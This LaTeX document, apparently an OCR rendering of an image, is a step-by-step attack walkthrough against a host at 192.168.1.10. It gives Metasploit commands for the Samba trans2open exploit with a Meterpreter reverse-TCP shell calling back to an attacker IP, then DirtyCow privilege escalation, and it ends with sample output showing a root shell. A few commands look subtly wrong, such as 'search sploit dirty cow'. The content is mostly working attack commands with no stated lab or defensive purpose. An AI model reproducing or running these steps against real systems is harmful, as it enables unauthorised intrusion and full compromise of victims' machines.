 \documentclass[12pt]{article}
\begin{document}
\textbf{Initial Reconnaissance:}
\begin{itemize}
  \item Target identified: 192.168.1.10
  \item Service enumeration revealed vulnerable Samba version
  \item Linux kernel version suggests DirtyCow vulnerability
\end{itemize}

\textbf{Stage 1 - Initial Access Commands:}
\begin{lstlisting}[language=bash]
# Start Metasploit console
msfconsole

# Search and select Samba trans2open exploit
search samba trans2open
use exploit/linux/samba/trans2open

# Configure exploit parameters
set RHOST 192.168.1.10    # Target IP
set LHOST 192.168.1.5     # Attacker IP
set LPORT 4444           # Listener port
set TARGET 0             # Auto target
set PAYLOAD linux/x86/meterpreter/reverse_tcp

# Launch the exploit
run
\end{lstlisting}

\textbf{Stage 2 - Privilege Escalation:}
\begin{lstlisting}[language=bash]
# In Meterpreter session
getuid      # Check current user
sysinfo     # Gather system information

# Search and configure DirtyCow exploit
search sploit dirty cow
use exploit/linux/local/dirty_cow

# Set exploit parameters
set SESSION 1            # Active meterpreter session
set TARGET 0            # Auto target
set LHOST 192.168.1.5   # Attacker IP
set LPORT 4445          # New listener port

# Execute privilege escalation
run
\end{lstlisting}

\textbf{Detailed Output \& Analysis:}
\begin{lstlisting}
[*] Started reverse TCP handler on 192.168.1.5:4444
[*] Exploiting Samba vulnerability...
[+] Meterpreter session 1 opened at 2025-04-14 15:30:22 +0530

meterpreter > getuid
Server username: www-data

[*] Executing DirtyCow exploit...
[+] Compilation successful
[*] Launching exploit...
[+] Privilege escalation successful

meterpreter > getuid
Server username: root
meterpreter > id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}
\end{document}
